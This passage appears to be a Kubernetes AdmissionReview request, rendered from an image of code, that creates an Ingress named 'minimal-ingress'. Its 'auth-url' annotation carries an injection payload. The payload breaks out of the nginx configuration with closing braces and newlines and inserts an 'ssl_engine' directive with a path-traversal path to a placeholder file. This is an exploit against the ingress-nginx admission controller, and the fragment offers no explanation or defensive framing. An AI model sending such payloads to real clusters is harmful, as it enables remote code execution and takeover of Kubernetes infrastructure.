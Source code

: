 ```python
         "version": "v1",
         "kind": "Ingress"
      },
      "resource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "requestKind": {
         "group": "networking.k8s.io",
         "version": "v1",
         "kind": "Ingress"
      },
      "requestResource": {
         "group": "networking.k8s.io",
         "version": "v1",
         "resource": "ingresses"
      },
      "name": "minimal-ingress",
      "namespace": "default",
      "operation": "CREATE",
      "userInfo": {
         "uid": "1619bf32-d4cb-4a99-a4a4-d33b2efa3bc6"
      },
      "object": {
         "kind": "Ingress",
         "apiVersion": "networking.k8s.io/v1",
         "metadata": {
            "name": "minimal-ingress",
            "namespace": "default",
            "creationTimestamp": null,
            "annotations": {
                "nginx.ingress.kubernetes.io/auth-url": "http://example.com/#;}}}\\n\\nssl_engine ../../../../../../../REPLACE\\n\\n"
            }
         },
         "spec": {
            "ingressClassName": "nginx",
            "rules": [
               {
                  "host": "test.example.com",
                  "http": {
                     "paths": [
                        {
                           "path": "/",
                           "pathType": "Prefix",
                           "backend": {
                              "service": {
                                 "name": "kubernetes",
                                 "port": {
                                    "number": 443
                                 }
                              }
                           }
                        }
                     ]
                  }
               }
            ]
         },
         "status": {
            "loadBalancer": {}
         }
```